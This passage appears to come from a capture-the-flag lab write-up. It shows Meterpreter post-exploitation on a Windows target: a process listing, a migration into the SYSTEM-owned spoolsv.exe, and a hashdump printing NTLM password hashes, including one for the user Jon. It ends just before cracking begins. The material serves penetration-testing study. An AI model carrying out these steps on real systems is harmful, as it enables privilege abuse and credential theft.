  720   604   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 772   704   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 828   704   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 896   704   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 944   704   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1012  656   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 1076  704   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1172  704   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 1268  704   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1304  704   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1400  704   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssme-agent.exe
 1476  704   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
 1604  704   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1940  704   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 1956  704   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM
 2032  1832  powershell.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 2096  704   mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
 2104  828   WmiPrvSE.exe
 2412  704   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 2460  704   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE
 2576  704   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 2612  704   vds.exe               x64   0        NT AUTHORITY\SYSTEM
 2772  704   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM
 2812  556   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 2972  556   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 2984  1268  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe
```

We just have to use a process running as SYSTEM, so for exemple, let's take process 1268 (spoolsv.exe).  
So let's type ```migrate 1268```.  
```
meterpreter > migrate 1268
[*] Migrating from 2032 to 1268...
[*] Migration completed successfully.
meterpreter >
```

## Password crack
**Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user ?**  
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter >
```

So we use ```hashdump``` to dump user's password hashes of the machine.
Answer : Jon  

Let's copy the password hash of user Jon and crack it. 
```